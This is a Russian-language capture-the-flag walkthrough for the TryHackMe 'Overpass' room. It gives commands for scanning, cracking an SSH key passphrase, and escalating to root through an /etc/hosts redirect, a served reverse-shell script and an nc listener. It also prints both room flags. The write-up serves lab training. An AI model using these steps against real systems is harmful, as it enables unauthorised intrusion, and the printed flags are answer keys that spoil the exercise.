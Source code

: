 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Overpass](https://tryhackme.com/r/room/overpass) 

Всего 1 задание:
## Задание 1
Что происходит, когда группа нищих студентов-компьютерщиков пытается создать менеджер паролей?
Очевидно, что это идеальный коммерческий успех!

На этой коробке спрятан код подписки TryHackMe. Первый, кто найдет и активирует его, получит подписку на месяц 
бесплатно! Если вы уже являетесь подписчиком, почему бы не передать код другу? 

ОБНОВЛЕНИЕ: Код теперь заявлен.
Машина была немного изменена 25.09.2020. Это было сделано только для улучшения производительности машины. Это не 
влияет на процесс. 

### Ответить на вопросы ниже
Взломайте машину и получите флаг в user.txt
```commandline
sudo nmap -sS -sV {Add your machine ip here}
gobuster --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt dir -u {Add your machine ip here}
# {Add your machine ip here}/admin
# login.js

mkdir ssh
nano id_rsa
ssh2john id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
# james13
chmod 600 id_rsa
ssh -i id_rsa {Добавьте сюда IP-адрес вашего компьютера} 
yes 
james13
cat user.txt
```

```commandline
thm{65c1aaf000506e56996822c6281e6bf7}
```
Повысьте свои привилегии и получите флаг в root.txt
```commandline
sudo -l
find / -perm -u=s -type -f 2>/dev/null
cat todo.txt
ls -la
cat .overpass
# {Add your machine ip here}/downloads
# Using an online ROT47 decipher tool to decrypt James’ password
nano /etc/hosts
# change IP overpass.thm {Add your machine ip here}
# create reverseshell overpass.thm/downloads/src/buildscript.sh
python3 -m http.server 80
nc -nvlp 4444
cat root.txt
```

```commandline
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)